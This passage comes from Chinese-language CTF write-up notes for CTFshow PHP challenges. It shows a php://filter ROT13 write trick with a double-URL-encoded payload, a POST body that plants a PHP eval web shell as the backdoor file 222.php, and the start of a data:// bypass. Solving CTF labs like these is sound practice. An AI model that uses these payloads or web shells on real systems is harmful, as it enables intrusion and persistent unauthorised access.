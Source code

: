 

![image-20240425231100731](D:\Infiltration\笔记\note\图片\image-20240425231100731.png)

查看flag

![image-20240425231130976](D:\Infiltration\笔记\note\图片\image-20240425231130976.png)





#### 解法二：ROT13（凯撒）



```
php://filter/write=string.rot13/resource=222.php
两次URL编码：
%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%37%33%25%37%34%25%37%32%25%36%39%25%36%65%25%36%37%25%32%65%25%37%32%25%36%66%25%37%34%25%33%31%25%33%33%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%33%32%25%33%32%25%33%32%25%32%65%25%37%30%25%36%38%25%37%30
```



```
POST
content=<?php eval($_POST[pass]);?>
ROT13编码：
content=<?cuc riny($_CBFG[cnff]);?>
```



写入222.php后门文件

![image-20240425231337477](D:\Infiltration\笔记\note\图片\image-20240425231337477.png)



拿到flag

![image-20240425231552450](D:\Infiltration\笔记\note\图片\image-20240425231552450.png)







### CTFshow-88—89

#### 解法：data://

过滤PHP，各种符号，只能使用data://

![image-20240425231935111](D:\Infiltration\笔记\note\图片\image-20240425231935111.png)



base64编码
